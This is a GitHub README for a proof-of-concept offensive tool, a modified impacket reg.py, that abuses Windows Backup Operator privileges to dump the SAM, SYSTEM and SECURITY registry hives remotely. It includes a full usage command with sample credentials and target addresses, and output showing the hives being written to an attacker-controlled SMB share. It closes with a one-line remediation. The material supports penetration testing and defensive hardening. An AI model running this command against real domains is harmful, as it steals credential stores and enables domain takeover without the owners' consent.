

# Backup Operator Registry Backup to Domain Compromise
A simple POC that abuses Backup Operator privileges to remote dump SAM, SYSTEM, and SECURITY hives.

Research credit to:
- [@filip_dragovic](https://twitter.com/filip_dragovic)
- Ported from [@mpgn](https://twitter.com/mpgn_x64) Windows [PoC](https://github.com/mpgn/BackupOperatorToDA)

## Usage
This proof of concept is a modified version of impacket/examples/reg.py and will work with the most recent impacket release installed. All supported impacket authentication mechanisms will work.

```
root@kali:~# python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Dumping SAM hive to \\10.0.220.51\share\SAM
Dumping SYSTEM hive to \\10.0.220.51\share\SYSTEM
Dumping SECURITY hive to \\10.0.220.51\share\SECURITY
```



## Remediation:
Treat `Backup Operators` domain group as Domain Adminstrators and other Tier 0 resources 
